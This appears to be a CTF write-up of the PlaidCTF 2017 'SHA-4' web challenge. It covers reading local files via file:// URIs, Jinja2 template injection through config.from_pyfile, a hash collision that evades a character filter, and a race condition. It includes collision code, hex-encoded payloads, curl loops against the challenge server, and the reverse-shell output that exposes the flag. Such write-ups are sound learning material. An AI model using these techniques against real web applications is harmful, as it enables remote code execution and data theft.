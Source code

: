 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
date:   2017-04-23 00:00
categories: CTF
tags: [PlaidCTF2017]
categories: [Web,Crypto]
author: jbz
---
```


## SHA-4
Web - 300 Points


### Writeup

This challenge provided two forms, one which allowed to post comments and a textarea which parses an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once we obtain file-reading access, we can find the directory of the python webapp `/var/www/sha4` by getting the system version from `file:///etc/issue` and the cmdline from `file:///proc/self/cmdline`.

We can guess the existence of these 2 files:
[server.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_server.py)
[sha4.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` checks if the comments contain non-whitelisted chars in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do. Let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path `/var/tmp/comments/<hash>.file` as output
 - ASN.1 ber decode the input
 - write the decoded input to the file
 - check if it contains unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp uses Flask, so we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hash the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` in the render_template function

The first part is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second part is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seems coded to purposely create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two ASN.1 encoded strings: one containing `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the is_unsafe() check on the safe payload


#### Collision!

We find out that finding a collision is pretty easy.
For every char there is a colliding one for each position in the DES key (see sha4.py file).

We then calculate each colliding char for each forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

We can use this [script](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. takes our "bad" payload, and replace each "bad" character with its relative collision
 2. sets dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well
 3. encodes both "good" and "bad" payloads as ASN.1
 4. hashes them!

Here are the 2 payloads, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command in each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}

